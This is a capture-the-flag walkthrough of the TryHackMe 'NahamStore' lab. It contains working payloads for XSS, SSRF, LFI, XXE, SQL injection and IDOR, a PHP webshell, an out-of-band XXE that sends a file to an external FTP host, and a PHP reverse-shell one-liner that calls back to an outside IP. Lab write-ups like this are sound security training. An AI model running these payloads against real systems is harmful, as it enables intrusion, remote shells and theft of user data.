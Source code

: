# 77 - NahamStore

Room Link --> [https://tryhackme.com/room/nahamstore](https://tryhackme.com/room/nahamstore)

When enumerating subdomains you should perform it against the `nahamstore.thm`  domain.

### Enumeration

{% code overflow="wrap" %}
```bash
nmap -Pn -n -vv 10.10.176.114 -p- -T4 -sV

PORT     STATE SERVICE  REASON
22/tcp   open  ssh      syn-ack
80/tcp   open  http    syn-ack nginx 1.14.0 (Ubuntu)
8000/tcp open  http    syn-ack nginx 1.18.0 (Ubuntu)
```
{% endcode %}

### Sub-Domain Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
ffuf -c -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://nahamstore.thm -H "Host: FUZZ.nahamstore.thm" -fw 125

www
shop
marketing
stock
```
{% endcode %}

#### Gobuster dir enum (port 80)

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://nahamstore.thm -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt,html,db,sql,bak -b 404,403

/search
/login
/register
/uploads
/staff
/css
/js
/returns
/logout
/basket
```
{% endcode %}

`stock.nahamstore.thm` .

THere is an endpoint here `/product` .

<figure><img src=".gitbook/assets/image (514).png" alt=""><figcaption></figcaption></figure>

`marketing.nahamstore.thm` .

<figure><img src=".gitbook/assets/image (515).png" alt=""><figcaption></figcaption></figure>

## Task 4 - XSS

{% code overflow="wrap" lineNumbers="true" %}
```bash
# dir enum for marketing.nahamstore.thm
gobuster dir -u http://marketing.nahamstore.thm -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt,html,db,sql,bak,zip -b 404,403 --no-error -t 200 -ic
```
{% endcode %}

<figure><img src=".gitbook/assets/image (517).png" alt=""><figcaption></figcaption></figure>

So i tried the `error` parameter and found the XSS endopoint.

[http://marketing.nahamstore.thm/?error=\<script>alert("XSS")\</script](http://marketing.nahamstore.thm/?error=%3Cscript%3Ealert\(%22XSS%22\)%3C/script%3E)>

<figure><img src=".gitbook/assets/image (516).png" alt=""><figcaption></figcaption></figure>

### Stored XSS

_First Let us add the product to the basket._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*vzP2Ek1DLPk427nvzVP_9w.png" alt="" height="272" width="700"><figcaption><p><em><strong>Click the add to basket</strong></em></p></figcaption></figure>

_Now click the **item**:_

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*o-mk-PruWW-Lp3cmyx8vzg.png" alt="" height="264" width="700"><figcaption><p><em><strong>Click the item</strong></em></p></figcaption></figure>

_On the item page if you did not add any address add it by clicking the **green color button**. As I have added an address so I am directly clicking the **blue button**._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*0ER9c5egRjrc9W5cCfvc0g.png" alt="" height="269" width="700"><figcaption><p><em><strong>The item page</strong></em></p></figcaption></figure>

_After clicking the blue button. I have gone to the **/basket** page._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*_op1_okBPbqb8CmwizhhsQ.png" alt="" height="303" width="700"><figcaption><p><em><strong>The basket page</strong></em></p></figcaption></figure>

Add credit card details and make payment: `1234123412341234` .

We can see our `User-Agent` info there.

<figure><img src=".gitbook/assets/image (518).png" alt=""><figcaption></figcaption></figure>

Putting an XSS payload in the `User-Agent` field works.

Use burpsuite to intercept the request, then change the "User-Agent" field to an XSS payload.

<figure><img src=".gitbook/assets/image (519).png" alt=""><figcaption></figcaption></figure>

And it worked.

<figure><img src=".gitbook/assets/image (520).png" alt=""><figcaption></figcaption></figure>

### HTML Tag Escape <a href="#html-tag-escape" id="html-tag-escape"></a>

_Let us enter a product. I have chosen the second one. I have add it to the **basket** and then went to the item page. After that, I clicked on the item and came to the below page._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*XoMEByX85TSjBvEXz7Rouw.png" alt="" height="307" width="700"><figcaption></figcaption></figure>

_We see the URL: **http://nahamstore.thm/product?id=1\&name=Hoodie+++Tee**_

_Now let's try to change the data of the **name** parameter and put a random string. I have written name=abc. Command: **http://nahamstore.thm/product?id=1\&name=dking**_

<figure><img src=".gitbook/assets/image (521).png" alt=""><figcaption></figcaption></figure>

_Here we can see that we have changed the data of the **name** parameter but **nothing change occurs on the page**. So let us visit the **view page source**._

<figure><img src=".gitbook/assets/image (522).png" alt=""><figcaption></figcaption></figure>

We can escape from the `<title>` tag and run our payload. Intercept with burpsuite.

`http://nahamstore.thm/product?id=1&name=</title><script>alert("HTML Escape")</script>` .

<figure><img src=".gitbook/assets/image (523).png" alt=""><figcaption></figcaption></figure>

### JS Variable Escape

In the main page, search for a product "love"

<figure><img src=".gitbook/assets/image (524).png" alt=""><figcaption></figcaption></figure>

We can see the search term `love` appeared in a Javascript script. We can escape the `search` variable and get XSS using this payload.

`love';alert("JS Escape"); //` .

And we got XSS

<figure><img src=".gitbook/assets/image (525).png" alt=""><figcaption></figcaption></figure>

### Hidden Parameter

Hidden parameter in Homepage is `q` .

<figure><img src=".gitbook/assets/image (526).png" alt=""><figcaption></figcaption></figure>

### HTML Tag Escape

In the `return` page there is a `<textarea>` tag that we can escape to get XSS.

<figure><img src=".gitbook/assets/image (527).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (528).png" alt=""><figcaption></figcaption></figure>

Using this payload we get another XSS

`Large size </textarea><script>alert("RETURN Escape")</script>` .

<figure><img src=".gitbook/assets/image (529).png" alt=""><figcaption></figcaption></figure>

### Non-existing Endpoint

_Let us visit any URL which is not on the website. For example **http://nahamstore.thm/product**_

_The **URL** redirected us to the below page._

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Doing this gives us XSS

[http://nahamstore.thm/\<script>alert(123)\</script](http://nahamstore.thm/%3Cscript%3Ealert\(123\)%3C/script%3E)>

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



### Hidden Param

_Visit one of the product pages:_

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*P3k4xVczxY4o5AYDtG5Nvg.png" alt="" height="309" width="700"><figcaption><p><strong>The page</strong></p></figcaption></figure>

_Just write something in the **discount** box and press the **Add to Basket** button._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*EZs1FwNsYR__3hj2i8x2lw.png" alt="" height="192" width="700"><figcaption><p><strong>After writing in the discount box</strong></p></figcaption></figure>

_See that you cannot see anything in the **discount** box whatever you wrote._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*c5GQg_xz36KXcYkqPVFYyg.png" alt="" height="287" width="700"><figcaption><p><strong>Nothing is shown</strong></p></figcaption></figure>

_Let us go to the **page source** and see nothing is written in the **value**._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*9I19LB4msMUTOeIrJWkRFg.png" alt="" height="289" width="700"><figcaption><p><strong>The view source</strong></p></figcaption></figure>

_Nothing is written in the **value** parameter._

_Let us make a little bit of a change in the URL. let us make the **discount** variable **GET** method instead of the **POST** method. Command: **http://nahamstore.thm/product?id=1\&added=1\&discount=12345**_

_After the change see that the web page is showing the input of the **discount** you gave._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*8cYl51h30nXYYiGgeF6fLg.png" alt="" height="284" width="700"><figcaption><p><strong>The discount value is showing</strong></p></figcaption></figure>

_Let us go to the **page source** and see the value written in the **value parameter** of the **discount** box._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*ycAz2e1cD7uq3fQOd1hYkw.png" alt="" height="284" width="700"><figcaption><p><strong>The design code</strong></p></figcaption></figure>

_Now run the payload and let us make some changes in the design. Command : **http://nahamstore.thm/product?id=1\&added=1\&discount=12345" onmouseover=alert(document.cookie);//”**_

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*DAyBY7JVZ3eSHV3AMosaeQ.png" alt="" height="191" width="700"><figcaption><p><strong>The payload works</strong></p></figcaption></figure>

## Open Redirect

[https://pentester.land/blog/open-redirect-cheatsheet/#common-injection-points--parameters](https://pentester.land/blog/open-redirect-cheatsheet/#common-injection-points--parameters)

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Open%20Redirect](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Open%20Redirect)

### Parameter 1

Fuzzing using ffuf:

{% code overflow="wrap" lineNumbers="true" %}
```bash
ffuf -u 'http://nahamstore.thm/?FUZZ=http://10.18.88.214' -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -ic -fs 4254

r
```
{% endcode %}

[http://nahamstore.thm/?r=http://10.18.88.214](http://nahamstore.thm/?r=http://10.18.88.214)

[http://nahamstore.thm/?r=https://google.com](http://nahamstore.thm/?r=https://google.com)

We get redirected to my local web server. Workw with "google.com" too.

### Parameter 2

_Let us recon on the URL: **http://nahamstore.thm/account/**_

_Command: **dirsearch -u http://nahamstore.thm/account/ -w /usr/share/wordlists/dirBuster\_list/directory-list-2.3-medium.txt**_

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*3WAfeVXR6Tq0wF3DdYILyA.png" alt="" height="217" width="700"><figcaption><p><strong>The recon</strong></p></figcaption></figure>

_This recon redirects us to and URL: **/login?redirect\_url=**_

_Let us visit the URL: **http://nahamstore.thm/login?redirect\_url=**_

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*m_cs_qHSgIdoVsig82nTLg.png" alt="" height="308" width="700"><figcaption><p><strong>The login page</strong></p></figcaption></figure>

_Now let us log in to the account of our own. But before that let us do this to the URL: **http://nahamstore.thm/login?redirect\_url=https://google.com** and then press the **login** with providing **email and password**._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*qYqb2I2OVugL2vmhCEAMNg.png" alt="" height="306" width="700"><figcaption><p><strong>On the login page</strong></p></figcaption></figure>

_Let us log in. During login, it **redirected** me to the **Google website**. :_

<figure><img src="https://miro.medium.com/v2/1*0o8ncwhSLSyF06_PXV3Mzw.png" alt="" width="700"><figcaption><p><strong>The redirected website</strong></p></figcaption></figure>

Answer is --> `redirect_url` .

## CSRF

_Let us go to **Accounts->Settings.**_

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*zrtnNj4I2fasbOVgIyKOgA.png" alt="" height="275" width="700"><figcaption><p><strong>The setting page.</strong></p></figcaption></figure>

_Let us start **intercept on** the button of the **burp suite**._

_Now, let us visit the **Change Email** option and catch its traffic._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*IUvKIAt4pYPdmzilVjt61Q.png" alt="" height="306" width="700"><figcaption><p><strong>The traffic of change email.</strong></p></figcaption></figure>

_Let us forward the **traffic** and see where it goes. It took us to the **/settings/email** page._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*Q0EVPlABf8YTBuagPxYiKA.png" alt="" height="302" width="700"><figcaption><p><strong>The setting page</strong></p></figcaption></figure>

_Now click the **Change Email** and catch its traffic in the **burp suite**._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*3epWpO6152U3MhO0hgHjYA.png" alt="" height="311" width="700"><figcaption><p><strong>The traffic of the /settings/email</strong></p></figcaption></figure>

_So this page is not the answer._

_Let us visit the second option **Change Password**._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*YQvUECp7up4ZBgYDDq4Xdg.png" alt="" height="285" width="700"><figcaption><p><strong>The /settings/password page</strong></p></figcaption></figure>

_Let us click the **Change Password** option and catch its traffic in the **burp suite** and see it._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*XJOIEWDHr3c_2hDPuLVahg.png" alt="" height="313" width="700"><figcaption><p><strong>There is no csrf token</strong></p></figcaption></figure>

_So this URL is the answer._ [_http://nahamstore.thm/account/settings/password_](http://nahamstore.thm/account/settings/password)

_**What field can be removed to defeat the CSRF protection**_

On the [email change page](http://nahamstore.thm/account/settings/email) there is a CSRF protection (hidden input field with an anti-CSRF token).

```html
<form method="post">
    <input type="hidden" name="csrf_protect" value="eyJkYXRhIjoiZXlKMWMyVnlYMmxrSWpvMExDSjBhVzFsYzNSaGJYQWlPaUl4TmpNeE1EUXdNREkySW4wPSIsInNpZ25hdHVyZSI6IjQyZWY1OWJlNTM2YTcxOTU5ZDQ0OGJmODc1N2Q1NDZhIn0=">
    <div><label>Email:</label></div>
    <div><input class="form-control" name="change_email" value="noraj@noraj.fr" ></div>
    <div style="margin-top:7px">
        <input type="submit" class="btn btn-success pull-right" value="Change Email"></div>
</form>
```

<figure><img src=".gitbook/assets/image (531).png" alt=""><figcaption></figcaption></figure>

Providing a wrong value will fail but removing the parameter will bypass the protection.

_Answer: **csrf\_protect**_

<figure><img src=".gitbook/assets/image (495).png" alt=""><figcaption></figcaption></figure>

It is encoded in `base64` .

## IDOR

_First, let us add something to the **Shopping basket** And then **add an address**._

On Burp Intercept, then click on the Address you just added.

<figure><img src=".gitbook/assets/image (497).png" alt=""><figcaption></figcaption></figure>

So just edit the `address_id` parameter to any number and you dump address details of other users.

<figure><img src=".gitbook/assets/image (496).png" alt=""><figcaption></figcaption></figure>

To exploit the second IDOR, you need to:

1. place and complete an order
2. go to the order page and select it
3. click on the `PDF Receipt` button

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*VXiMooDsTUYjUu2XoGf2zw.png" alt="" height="307" width="700"><figcaption><p><strong>The /account/orders/9 page</strong></p></figcaption></figure>

_Now let us on the **burp suite** and on the button **intercept on**._

_Now let us press the button **PDF Recept** and catch the **live traffic** of the page._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*xW-tgXPo-7q2Li82JlZAmA.png" alt="" height="308" width="700"><figcaption><p><strong>The order receipt traffic</strong></p></figcaption></figure>

_Now let us change the **id** parameter to **3** and **forward** it._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*xJPXIynUouRYKf9rRlOmaA.png" alt="" height="316" width="700"><figcaption><p><strong>The pdf page</strong></p></figcaption></figure>

_Here we see that the **order id** does not match the **user\_id.** So let us add the **user\_id** parameter in the traffic. Command: **what=order\&id=3\&user\_id=3**_

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*oXCjDf24AHjx5680Inq4EQ.png" alt="" height="312" width="700"><figcaption><p><strong>The pdf page</strong></p></figcaption></figure>

_It did not work. So let us use some other techniques. Command: **what=order\&id=3%26user\_id=3**_

The idea was to URL encode it `&` sign so that `3&user_id=3` becomes the value of `id`.

<figure><img src=".gitbook/assets/image (498).png" alt=""><figcaption></figcaption></figure>

Answer --> Order Date: `22/02/2021 11:42:13` .

## LFI

Add an item to the basket.

Turn on burpsuite intruder, then Clilck the item:

<figure><img src=".gitbook/assets/image (499).png" alt=""><figcaption></figcaption></figure>

_Now let us click the **forward** button_.

_When the bellow request will be shown send it to the **repeater**._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*UtVnskI6x3hwKI5YX1nTCg.png" alt="" height="310" width="700"><figcaption><p><strong>The request</strong></p></figcaption></figure>

`/....//....//....//....//....//lfi/flag.txt` - This payload worked

<figure><img src=".gitbook/assets/image (500).png" alt=""><figcaption></figcaption></figure>

## SSRF

There is a _Check stock_ button on the product page.

<figure><img src=".gitbook/assets/image (501).png" alt=""><figcaption></figcaption></figure>

Catch it in Burp Intercept and forward  to Repeater.

<figure><img src=".gitbook/assets/image (502).png" alt=""><figcaption></figcaption></figure>

The `server` parameter value seems to be a domain name.

But if we put another value, we have an error about the bad server name so we must keep `stock.nahamstore.thm` and still find a way to bypass it.

With `server=stock.nahamstore.thm@127.0.0.1` we have a 404 for page

<figure><img src=".gitbook/assets/image (503).png" alt=""><figcaption></figcaption></figure>

But with `server=stock.nahamstore.thm@127.0.0.1#` we are hitting the home page.

<figure><img src=".gitbook/assets/image (504).png" alt=""><figcaption></figcaption></figure>

Let's try to discover an internal sub-domain:

{% code overflow="wrap" lineNumbers="true" %}
```bash
ffuf -u 'http://nahamstore.thm/stockcheck' -c -w /opt/SecLists/Discovery/DNS/dns-Jhaddix.txt -X POST -d 'product_id=2&server=stock.nahamstore.thm@FUZZ.nahamstore.thm#'

internal-api
```
{% endcode %}

We found one `internal-api.nahamstore.thm`

`server=stock.nahamstore.thm@internal-api.nahamstore.thm#` .

<figure><img src=".gitbook/assets/image (505).png" alt=""><figcaption></figcaption></figure>

We found an endpoint --> `/orders` .

```
{"server":"internal-api.nahamstore.com","endpoints":["\/orders"]}
```

Checking it out.

<figure><img src=".gitbook/assets/image (506).png" alt=""><figcaption></figcaption></figure>

```json
[
  {
    "id": "4dbc51716426d49f524e10d4437a5f5a",
    "endpoint": "\/orders\/4dbc51716426d49f524e10d4437a5f5a"
  },
  {
    "id": "5ae19241b4b55a360e677fdd9084c21c",
    "endpoint": "\/orders\/5ae19241b4b55a360e677fdd9084c21c"
  },
  {
    "id": "70ac2193c8049fcea7101884fd4ef58e",
    "endpoint": "\/orders\/70ac2193c8049fcea7101884fd4ef58e"
  }
]
```

We can check every order.

`server=stock.nahamstore.thm@internal-api.nahamstore.thm/orders/4dbc51716426d49f524e10d4437a5f5a#` .

<figure><img src=".gitbook/assets/image (507).png" alt=""><figcaption></figcaption></figure>

We are seeing full details for other users.&#x20;

Checking 2nd order id.

`server=stock.nahamstore.thm@internal-api.nahamstore.thm/orders/5ae19241b4b55a360e677fdd9084c21c#` .

<figure><img src=".gitbook/assets/image (508).png" alt=""><figcaption></figcaption></figure>

```json
{
  "id": "5ae19241b4b55a360e677fdd9084c21c",
  "customer": {
    "id": 2,
    "name": "Jimmy Jones",
    "email": "jd.jones1997@yahoo.com",
    "tel": "501-392-5473",
    "address": {
      "line_1": "3999  Clay Lick Road",
      "city": "Englewood",
      "state": "Colorado",
      "zipcode": "80112"
    },
    "items": [
      {
        "name": "Hoodie + Tee",
        "cost": "25.00"
      }
    ],
    "payment": {
      "type": "MasterCard",
      "number": "5190216301622131",
      "expires": "11\/2023",
      "CVV2": "223"
    }
  }
}
```

## XXE

_Let us visit the subdomain: **stock.nahamstore.thm**_

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*icpEcXSigmrC7mohvBHvEA.png" alt="" height="280" width="700"><figcaption><p><strong>The main page</strong></p></figcaption></figure>

_Let us visit the page **/product**. Command : **stock.nahamstore.thm/product**_

<figure><img src=".gitbook/assets/image (509).png" alt=""><figcaption></figcaption></figure>

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*My4ti-9W04d-cC97HlXiNQ.png" alt="" height="307" width="700"><figcaption><p><strong>In the burp repeater</strong></p></figcaption></figure>

_Let us change the request method from **GET** to **POST**._

<figure><img src=".gitbook/assets/image (510).png" alt=""><figcaption></figcaption></figure>

Now we FUZZ for allowed parameters on the Product, using `/usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt` wordlist.

We see that the `xml` parameter returns.

<figure><img src=".gitbook/assets/image (511).png" alt=""><figcaption></figcaption></figure>

_Now let us copy the **XML** code from the **response** and paste it into the **request**._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*Bym1Dx0kFCVdaPxq51-DXQ.png" alt="" height="309" width="700"><figcaption><p><strong>After pasting</strong></p></figcaption></figure>

_Now let us **send** the request again._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*PNwIxGBYBJ_yTP6ST0aSEA.png" alt="" height="310" width="700"><figcaption><p><strong>The request</strong></p></figcaption></figure>

_**X-Token** is not present._

The error suggest we did not provide `X-Token` even if we have the HTTP header present. It means in XML mode the HTTP header is ignored and must be expecting a XML value.

{% code overflow="wrap" %}
```xml
// Some code# send this as request
<?xml version="1.0"?>
	<data>
	<X-Token>
d31ng
</X-Token>
	</data>l
```
{% endcode %}

Outputs

<figure><img src=".gitbook/assets/image (512).png" alt=""><figcaption></figcaption></figure>

Since the value we provided is reflected, the first thing that come to mind is to perform an XXE attack.

We can read the /etc/passwd file with this payload:

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
	<data>
	<X-Token>
&test;
</X-Token>
	</data>
```

<figure><img src=".gitbook/assets/image (513).png" alt=""><figcaption></figcaption></figure>

Reading the 1st flag with:

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///flag.txt'>]>
	<data>
	<X-Token>
&test;
</X-Token>
	</data>
```

### Blind XXE / OOB XXE

There is a page that let us upload xlsx files: [http://nahamstore.thm/staff](http://nahamstore.thm/staff)

But what is an XLSX? Just a zip with XML files inside. So if value are extracted from it there is a chance for XXE.

We can consult PayloadsAllTheThings for [OOB](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#exploiting-blind-xxe-to-exfiltrate-data-out-of-band) & [XLSX](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#xxe-inside-xlsx-file) payloads (OOB because the values are not reflected).

First I created a spreadsheet file with LibreOffice Calc (`xxe.xlsx`).

Let's extract the ZIP:

```bash
# extract the xxe.xlsx file into a dir XXE.
7z x -oXXE xxe.xlsx
```

<figure><img src=".gitbook/assets/image (533).png" alt=""><figcaption></figcaption></figure>

I added the OOB XXE payload inside `xl/workbook.xml`.

{% code title="workbook.xml" %}
```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE cdl [<!ELEMENT cdl ANY ><!ENTITY % asd SYSTEM "http://10.18.88.214:8000/xxe.dtd">%asd;%c;]>
<cdl>&rrr;</cdl>
<workbook xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" xmlns:r="http://schemas.openxmlforma>

```
{% endcode %}

Let's rebuild the spreadsheet:

```bash
# updates the xxe.xlsx file.
7z u ../xxe.xlsx *
```

Using a remote DTD will save us the time to rebuild a document each time we want to retrieve a different file. Instead we build the document once and then change the DTD. And using FTP instead of HTTP allows to retrieve much larger files.

{% code title="xxe.dtd" overflow="wrap" %}
```xml
<!ENTITY % d SYSTEM "php://filter/convert.base64-encode/resource=/flag.txt">
<!ENTITY % c "<!ENTITY rrr SYSTEM 'ftp://10.9.19.77:2121/%d;'>"> 
```
{% endcode %}

<figure><img src=".gitbook/assets/image (534).png" alt=""><figcaption></figcaption></figure>

All the files are set.

Start the FTP + HTTP server:

```bash
python3 -m http.server 8000
```

Download [xxeftp](https://github.com/staaldraad/xxeserv) you have to compile it with `GO` --> "go build xxeftp.go"

```bash
xxeftp  -o files.log -p 2121 -w -wd public -wp 8000
```

Upload the `xxe.xlsx` file.

<figure><img src=".gitbook/assets/image (535).png" alt=""><figcaption></figcaption></figure>

Immediately our FTP and HTTP server should receive the `/flag.txt` file.

<figure><img src=".gitbook/assets/image (536).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```bash
dking@dking ~/Downloads$ cat files.log                                                                          
USER:  anonymous
PASS:  anonymous
//e2Q2YjIyY2IzZTM3YmVmMzJkODAwMTA1YjExMTA3ZDhmfQo=
SIZE
MDTM
USER:  anonymous
PASS:  anonymous
SIZE
PASV
```
{% endcode %}

Decode the base64 --> `e2Q2YjIyY2IzZTM3YmVmMzJkODAwMTA1YjExMTA3ZDhmfQo=`&#x20;

Outpur --> {d6b22cb3e37bef32d800105b11107d8f}

## RCE

### 1st RCE Flag / PHP webshell

Enumerating port 8000.

{% code overflow="wrap" %}
```
gobuster dir -u http://nahamstore.thm:8000 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -b 404,403 --no-error -t 200

admin
```
{% endcode %}

<figure><img src=".gitbook/assets/image (537).png" alt=""><figcaption></figcaption></figure>

[http://nahamstore.thm:8000/admin/login](http://nahamstore.thm:8000/admin/login)

We can login with `admin : admin`&#x20;

<figure><img src=".gitbook/assets/image (538).png" alt=""><figcaption></figcaption></figure>

This is  the same dashboard at [http://marketing.nahamstore.thm/](http://marketing.nahamstore.thm/)

Here the admin panel allows us to modify the templates of the page displayed at [http://marketing.nahamstore.thm/](http://marketing.nahamstore.thm/)

I replaced the description paragraph with a simple webshell:

```php
<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>
```

Then it's easy to execute a command:&#x20;

[http://marketing.nahamstore.thm/8d1952ba2b3c6dcd76236f090ab8642c/?cmd=id](http://marketing.nahamstore.thm/8d1952ba2b3c6dcd76236f090ab8642c/?cmd=id)

<figure><img src=".gitbook/assets/image (539).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (540).png" alt=""><figcaption></figcaption></figure>

### 2nd Flag / Blind RCE

We already found an IDOR in the `user_id` param of the PDF generator function (PDF Receipt) but there is also a RCE in the `id` one.

_In the **id** parameter we will use this payload :_&#x20;

{% code overflow="wrap" %}
```bash
$(php -r '$sock=fsockopen("10.18.88.214",9000);exec("/bin/sh -i <&3 >&3 2>&3");')
```
{% endcode %}

_We will encode it to the URL_

<figure><img src=".gitbook/assets/image (543).png" alt=""><figcaption></figcaption></figure>

_Our payload request will be:_

{% code overflow="wrap" %}
```
what=order&id=4%24%28%70%68%70%20%2d%72%20%27%24%73%6f%63%6b%3d%66%73%6f%63%6b%6f%70%65%6e%28%22%31%30%2e%31%38%2e%38%38%2e%32%31%34%22%2c%39%30%30%30%29%3b%65%78%65%63%28%22%2f%62%69%6e%2f%73%68%20%2d%69%20%3c%26%33%20%3e%26%33%20%32%3e%26%33%22%29%3b%27%29
```
{% endcode %}

Setup nc listener, use burpsuite intercept to intercept the traffic then modify the value of `id` and we get shell.

<figure><img src=".gitbook/assets/image (544).png" alt=""><figcaption></figcaption></figure>

From here we can read `/etc/hosts` and find some useful domains for the recon section.

{% code title="/etc/hosts" %}
```
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
172.17.0.4      2431fe29a4b0
127.0.0.1       nahamstore.thm
127.0.0.1       www.nahamstore.thm
172.17.0.1      stock.nahamstore.thm
172.17.0.1      marketing.nahamstore.thm
172.17.0.1      shop.nahamstore.thm
172.17.0.1      nahamstore-2020.nahamstore.thm
172.17.0.1      nahamstore-2020-dev.nahamstore.thm
10.131.104.72   internal-api.nahamstore.thm
```
{% endcode %}

## SQLI

### In-band

By entering an invalid ID for the product, I got an error message for MySQL out of it.

[http://nahamstore.thm/product?id=1'](http://nahamstore.thm/product?id=1%27)

<figure><img src=".gitbook/assets/image (545).png" alt=""><figcaption></figcaption></figure>

#### No of Columns

Playing around i see there are 5 columns there.

```sql
1099 UNION SELECT NULL,NULL,NULL,NULL,NULL-- -
```

#### DB Version

```sql
1099 UNION SELECT NULL,@@version,NULL,NULL,NULL-- -
```

<figure><img src=".gitbook/assets/image (547).png" alt=""><figcaption></figcaption></figure>

#### DBs / Schemas

{% code overflow="wrap" %}
```sql
1099 UNION SELECT NULL,GROUP_CONCAT(SCHEMA_NAME),NULL,NULL,NULL FROM information_schema.SCHEMATA-- -

# information_schema,nahamstore
```
{% endcode %}

#### Tables

{% code overflow="wrap" %}
```sql
1099 UNION SELECT NULL,GROUP_CONCAT(table_name),NULL,NULL,NULL FROM information_schema.tables WHERE table_schema="nahamstore"-- -

# product,sqli_one
```
{% endcode %}

#### Columns

{% code overflow="wrap" %}
```sql
# columns for "sqli_one" table.
1099 UNION SELECT NULL,GROUP_CONCAT(column_name),NULL,NULL,NULL FROM information_schema.columns WHERE table_name="sqli_one"-- -

# flag,id
```
{% endcode %}

#### Dump Data

{% code overflow="wrap" %}
```sql
1099 UNION SELECT NULL,GROUP_CONCAT(flag,id),NULL,NULL,NULL FROM nahamstore.sqli_one-- -

{d890234e20be48ff96a2f9caab0de55c}1
```
{% endcode %}

### Inferential SQLi <a href="#inferential-sqli" id="inferential-sqli"></a>

The second one is pretty hard to identify. It happens in the `/return` request:

The easiest way to exploit it will be to save the request to a file and pass it to sqlmap.

<figure><img src=".gitbook/assets/image (548).png" alt=""><figcaption></figcaption></figure>

{% code title="req.txt" %}
```
POST /returns HTTP/1.1
Host: nahamstore.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------86688607116737285133964723420
Content-Length: 419
Origin: http://nahamstore.thm
Connection: close
Referer: http://nahamstore.thm/returns
Cookie: token=da26c04730a46d6acdae6f7236802d6e; session=981b443ffdb368f8f31f9c4591fd020c
Upgrade-Insecure-Requests: 1

-----------------------------86688607116737285133964723420
Content-Disposition: form-data; name="order_number"

1
-----------------------------86688607116737285133964723420
Content-Disposition: form-data; name="return_reason"

2
-----------------------------86688607116737285133964723420
Content-Disposition: form-data; name="return_info"

Hell
-----------------------------86688607116737285133964723420--

```
{% endcode %}

